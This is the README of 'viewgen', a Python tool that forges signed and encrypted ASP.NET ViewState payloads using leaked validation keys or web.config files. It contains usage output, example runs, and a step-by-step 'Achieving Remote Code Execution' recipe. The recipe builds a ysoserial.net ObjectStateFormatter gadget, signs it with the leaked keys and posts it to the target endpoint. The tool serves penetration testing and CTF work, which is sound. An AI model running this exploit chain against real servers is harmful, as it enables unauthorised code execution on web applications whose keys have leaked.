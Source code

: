 # viewgen

### ASP.NET ViewState Generator

**viewgen** is a ViewState generator capable of both signing and encrypting payloads with leaked validation keys or `web.config` files.

---------------

**Requirements**: Python 3

**Implemented**: AES, DES (Encryption) and MD5, SHA1/256/384/512 (Signatures)

**Not implemented**: 3DES (Encryption) and AES/3DES (Signatures)

### Installation

`pip3 install --upgrade -r requirements.txt` or `./install.sh`


---------------

### Usage
```bash
$ ./viewstate -h
usage: viewgen [-h] [-c WEBCONFIG] [-m MODIFIER] [-e] [-d] [--guess] [--check]
               [--vkey VKEY] [--valg VALG] [--dkey DKEY] [--dalg DALG]
               payload

viewgen is a ViewState generator, capable of both signing and encrypting
payloads with leaked validation keys

positional arguments:
  payload               viewState payload (base 64 encoded)

optional arguments:
  -h, --help            show this help message and exit
  -c WEBCONFIG, --webconfig WEBCONFIG
                        loads web.config file
  -m MODIFIER, --modifier MODIFIER
                        VIEWSTATEGENERATOR value
  -e, --encrypted       Viewstate is encrypted
  -d, --decode          decodes ViewState payload
  --guess               guess signature and encryption mode
  --check               checks if modifier and keys are correct for a given
                        ViewState payload
  --vkey VKEY           validation key
  --valg VALG           validation algorithm
  --dkey DKEY           decryption key
  --dalg DALG           decryption algorithm
```

---------------

### Examples

```bash
$ viewgen --decode --check --webconfig web.config --modifier CA0B0334 "zUylqfbpWnWHwPqet3cH5Prypl94LtUPcoC7ujm9JJdLm8V7Ng4tlnGPEWUXly+CDxBWmtOit2HY314LI8ypNOJuaLdRfxUK7mGsgLDvZsMg/MXN31lcDsiAnPTYUYYcdEH27rT6taXzDWupmQjAjraDueY="
[+] ViewState
(('1628925133', (None, [3, (['enctype', 'multipart/form-data'], None)])), None)
[+] Signature
7441f6eeb4fab5a5f30d6ba99908c08eb683b9e6
[+] Signature match

$ viewgen --webconfig web.config --modifier CA0B0334 "/wEPDwUKMTYyODkyNTEzMw9kFgICAw8WAh4HZW5jdHlwZQUTbXVsdGlwYXJ0L2Zvcm0tZGF0YWRk"
r4zCP5CdSo5R9XmiEXvp1LHVzX1uICmY7oW2WD/gKS/Mt/s+NKXrMpScr4Gvrji7lFdHPOttFpi2x7YbmQjEjJ2NdBMuzeKFzIuno2DenYF8yVVKx5+LL7LYmI0CVcNQ+jH8VxvzVG58NQIJ/rSr6NqNMBahrVfAyVPgdL4Eke3Bq4XWk6BYW2Bht6ykSHF9szT8tG6KUKwf+T94hFUFNIXXkURptwQJEC/5AMkFXMU0VXDa

$ viewgen --guess "/wEPDwUKMTYyODkyNTEzMw9kFgICAw8WAh4HZW5jdHlwZQUTbXVsdGlwYXJ0L2Zvcm0tZGF0YWRkuVmqYhhtcnJl6Nfet5ERqNHMADI="
[+] ViewState is not encrypted
[+] Signature algorithm: SHA1

$ viewgen --guess "zUylqfbpWnWHwPqet3cH5Prypl94LtUPcoC7ujm9JJdLm8V7Ng4tlnGPEWUXly+CDxBWmtOit2HY314LI8ypNOJuaLdRfxUK7mGsgLDvZsMg/MXN31lcDsiAnPTYUYYcdEH27rT6taXzDWupmQjAjraDueY="
[!] ViewState is encrypted
[+] Algorithm candidates:
AES SHA1
DES/3DES SHA1
```

---------------

### Achieving Remote Code Execution

Leaking the `web.config` file or validation keys from ASP.NET apps results in RCE via ObjectStateFormatter deserialization if ViewStates are used.

1 - Generate a payload with [ysoserial.net](https://github.com/pwntester/ysoserial.net):

```bash
ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "ping x.x.x.x"
```

2 - Grab a modifier (`__VIEWSTATEGENERATOR` value) from a given endpoint of the webapp

3 - Generate the signed/encrypted payload:

```bash
viewgen --webconfig web.config --modifier MODIFIER PAYLOAD
```

4 - Send a POST request with the generated ViewState to the same endpoint

5 - Profit 🎉🎉

---------------

**Thanks**

- [@infosec_au](https://twitter.com/infosec_au)
- [@orange_8361](https://twitter.com/orange_8361)
- [@smiegles](https://twitter.com/smiegles)

**CTF Writeups**

- https://xz.aliyun.com/t/3019
- https://cyku.tw/ctf-hitcon-2018-why-so-serials/
